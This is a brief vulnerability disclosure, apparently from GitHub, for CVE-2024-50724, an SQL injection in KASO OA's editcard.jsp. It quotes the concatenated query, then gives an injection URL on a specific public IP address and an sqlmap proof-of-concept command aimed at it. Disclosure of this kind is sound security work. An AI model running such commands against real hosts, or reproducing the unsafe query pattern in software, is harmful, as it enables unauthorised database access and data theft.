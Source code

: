 # KASO cardcase/editcard.jsp Sql Injection

CVE-ID: CVE-2024-50724

VERSION: v9.0

Exploit Author: hndky

Vulnerability Discovery Unit: 






Code

    <%}
    rs.close();
      sql = "select a.classid,a.name,b.popedom from oa_cardclass a,oa_card_popedom b where a.classid=b.classid and b.person_id='"+person_id+"'";  
      rs=DBmenu.executeQuery(sql); 
    %>


Injection：person_id

Injection url: http://125.69.99.250:8088/cardcase/editcard.jsp?person_id=2&id=1&classid=1


poc:
python .\sqlmap.py -u "http://125.69.99.250:8088/cardcase/editcard.jsp?person_id=2&id=1&classid=1" --random-agent --dbms=mssql


![sql](https://github.com/user-attachments/assets/294134a2-6cda-4215-ad39-becef72da11f)




